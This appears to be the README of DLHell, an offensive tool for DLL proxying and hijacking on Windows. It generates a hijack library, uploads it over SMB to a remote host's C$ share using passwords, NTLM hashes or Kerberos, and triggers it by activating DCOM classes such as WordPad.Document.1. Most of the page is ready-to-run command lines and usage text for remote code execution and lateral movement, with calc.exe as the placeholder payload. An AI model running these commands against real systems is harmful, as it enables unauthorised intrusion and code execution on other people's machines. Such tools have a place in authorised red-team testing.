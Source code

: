 # DLHell

DLHell performs DCOM local & remote Windows DLL Proxying

## Install

The following packages are required (might depend on your distro, following example for Debian 12)

```bash
sudo apt install -y g++-mingw-w64-x86-64-win32 binutils-mingw-w64-x86-64
```

Install pip dependencies

```bash
pip3 install -r requirements.txt
```

## Quick start

The following command hijacks the library netutils.dll on host 10.137.0.48 from the template file template.tpe (C++ source hijack library) which launches calc.exe. Both original & proxy DLL will be placed in the folder `program files/windows nt/accessories/` of the c$ share on the remote target.

Please use Impacket synthax for the -remote-target option.

```bash
DLHell.py -t template.tpe -c 'calc.exe' -remote-lib 'windows/system32/netutils.dll' -remote-target 'program files/windows nt/accessories/test.dll' -target 'domain/user:password@ip'
```

Kerberos authentication can also be used:
```bash
DLHell.py -t template.tpe -c 'calc.exe' -k -target wks-02.vault-tech.com -progid WordPad.Document.1
```

List available CLSID & ProgIDs:
```bash
DLHell.py -list
```

## Usage

```
 ____  _     _   _      _ _
|  _ \| |   | | | | ___| | |
| | | | |   | |_| |/ _ \ | |
| |_| | |___|  _  |  __/ | |
|____/|_____|_| |_|\___|_|_|

DLHell v1.0

usage: DLHell.py [-h] [-local-lib LOCAL_LIB] [-remote-lib REMOTE_LIB] [-local-target LOCAL_TARGET]
                 [-remote-target REMOTE_TARGET] [-target TARGET] [-clsid CLSID] [-progid PROGID] -t T -c C
                 [-u U] [-l] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address]
                 [-target-ip ip address] [-port [destination port]]

DLL Hell - DLL Proxifier/Hijacker

options:
  -h, --help            show this help message and exit
  -local-lib LOCAL_LIB  Path of the remote library on the local system, ex: version.dll
  -remote-lib REMOTE_LIB
                        Path of the library on the remote system, ex: windows/system32/version.dll. WARNING:
                        Will connect using SMB on C$ share. Admin rights needed. Requires -target
  -local-target LOCAL_TARGET
                        The new name of the local output proxyfied library
  -remote-target REMOTE_TARGET
                        The new name of the remote proxyfied library. WARNING: Will connect using SMB on C$
                        share. Admin rights needed. Requires -target
  -target TARGET        [[domain/]username[:password]@]<targetName or address>
  -clsid CLSID          CLSID of DCOM class to activate
  -progid PROGID        ProgID of DCOM class to activate
  -t T, -template T     Template file to use for lib generation
  -c C, -command C      Command to execute using hijacked lib
  -u U, -user U         Name of the user to hijack (used to put DLLs in localappdata folder)
  -l, -list             Lists vulnerable CLSID & ProgID for DCOM Hijacking

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on
                        target parameters. If valid credentials cannot be found, it will use the ones
                        specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN)
                        specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as
                        target. This is useful when target is the NetBIOS name and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server
```


## Local DLL Proxying

For Local DLL crafting, use the options -local-lib (name of the proxy DLL) & -local-target (renamed original DLL)

```bash
DLHell.py -t template.tpe -c 'calc.exe' -local-lib 'lib/netutils.dll' -local-target 'test.dll'
```

## Remote DLL Proxying (Admin privileges needed)

For remote DLL hijacking, specify the options -target and -remote-lib (name of the original DLL on the remote host) & -local-target (renamed original DLL)

```bash
DLHell.py -t template.tpe -c 'calc.exe' -target 'domain/user:password@ip' -remote-lib 'windows/system32/PROPSYS.dll' -remote-target 'windows/test.dll'
```

## DCOM DLL Proxying (Admin privileges needed)

DCOM DLL Proxying can be exploited by using the `-progid` and `-clsid` options

The list of available CLSIDs & ProgIDs is available with the following command:
```bash
DLHell.py -list
```

You can add new hijacks to the dcom.json file which defines vulnerable libraries path

Then, only the ProgID or CLSID is required to:
- Get the original DLL
- Create & Compile the Hijack library
- Upload the libraries on the remote host
- Activate the remote DCOM class

Example for ProgID **WordPad.Document.1**:
```bash
DLHell.py -t template.tpe -c 'calc.exe' -target 'domain/user:password@ip' -progid WordPad.Document.1
```

Example for CLSID **73FDDC80-AEA9-101A-98A7-00AA00374959**:
```bash
DLHell.py -t template.tpe -c 'calc.exe' -target 'domain/user:password@ip' -clsid 73FDDC80-AEA9-101A-98A7-00AA00374959
```
